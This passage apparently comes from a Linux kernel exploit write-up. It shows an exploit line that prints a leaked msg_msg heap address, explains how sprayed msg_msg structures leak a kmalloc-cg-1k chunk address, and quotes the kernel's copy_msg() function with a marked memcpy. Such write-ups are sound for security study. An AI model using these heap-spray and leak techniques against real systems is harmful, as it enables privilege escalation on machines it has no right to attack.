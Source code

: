 ```c
}
printf("[+] 1k-sized msg_msg addr : 0x%llx\n", small_msg_msg_addr);
```
With this, we are highly likely to get `kmalloc-cg-1k` chunk's address from the `m_list.prev` field of the `struct msg_msg` sprayed below by `msgqids2`. 

![lts_3](./img/lts_3.png)


- [ipc/msgutil.c:copy_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n118)
```c
struct msg_msg *copy_msg(struct msg_msg *src, struct msg_msg *dst)
{
	struct msg_msgseg *dst_pseg, *src_pseg;
	size_t len = src->m_ts;
	size_t alen;

	if (src->m_ts > dst->m_ts)
		return ERR_PTR(-EINVAL);

	alen = min(len, DATALEN_MSG);
	memcpy(dst + 1, src + 1, alen);

	for (dst_pseg = dst->next, src_pseg = src->next;
	     src_pseg != NULL;
	     dst_pseg = dst_pseg->next, src_pseg = src_pseg->next) {

		len -= alen;
		alen = min(len, DATALEN_SEG);
		memcpy(dst_pseg + 1, src_pseg + 1, alen); // [1]
	}

	dst->m_type = src->m_type;
```